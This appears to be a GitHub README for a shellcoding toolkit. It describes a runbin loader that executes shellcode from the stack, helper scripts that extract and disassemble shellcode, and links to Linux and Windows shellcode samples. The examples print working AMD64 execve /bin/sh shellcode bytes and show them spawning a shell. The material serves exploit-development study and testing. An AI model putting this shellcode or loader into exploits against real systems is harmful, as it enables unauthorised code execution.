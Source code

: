 # Shellcoding


## Programs


### [runbin.c](./utils/runbin.c)

Executing data on the stack, which is used to test and debug shellcode.

Prebuilt binaries exist both for Windows and Linux.

#### Usage

```
./bin/runbin -h
Usage: runbin [-e] <filename>

    -h, --help    show this help message and exit
    -e, --escape  Use escape mode.
```

#### Examples

```
$ hexdump 64.bin
0000000 f631 bb48 622f 6e69 2f2f 6873 5356 5f54
0000010 3b6a 3158 0fd2 0005
0000017
$ runbin 64.bin
[-] Printing memory: 0x7ffda9515640 23
31 f6 48 bb 2f 62 69 6e 2f 2f 73 68 56 53 54 5f
6a 3b 58 31 d2 0f 05
[-] Executing address: 0x7ffda9515640
[toor@bogon shellcoding.git]$ exit
exit
$ less -FX 64.txt                                                                               :(
\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05
$ runbin -e 64.txt
[-] Printing memory: 0x7ffde32e3590 23
31 f6 48 bb 2f 62 69 6e 2f 2f 73 68 56 53 54 5f
6a 3b 58 31 d2 0f 05
[-] Executing address: 0x7ffde32e3590
[toor@bogon shellcoding.git]$ exit
exit
```


## Scripts


### [mkhex.sh](./historic/mkhex.sh)

This is deprecated
and [IntelliCoder] is strongly recommended for the time being.

Extracting shellcode from binaries
and / or constructing C source code for demonstration or testing.


### [dishex32.sh](./sh/dishex32.sh) / [dishex64.sh](./sh/dishex64.sh)

Disassembling the given hex string using `objdump`.

Z Shell must be installed due to the use of `=()`.

For example:

```bash
./dishex64.sh cccccccc
```


## Linux Shellcode

- [exit IA32 7 Bytes Null-Free](./linux/exit/expert.s)

- [execve /bin/sh IA32 21 Bytes Null-Free](./linux/sh/push.s)

- [execve /bin/sh AMD64 23 Bytes Null-Free](./linux/sh/push64.s)


## Windows Shellcode

- [user32!MessageBoxA "Hello World!" All x86 Windows 199 Bytes Null-Free](./windows/messagebox/messagebox32.asm)


## Documentation

- [对照内核结构深入理解动态定位 API](./doc/api-res-zh_CN.md)


[IntelliCoder]: https://github.com/NoviceLive/intellicoder
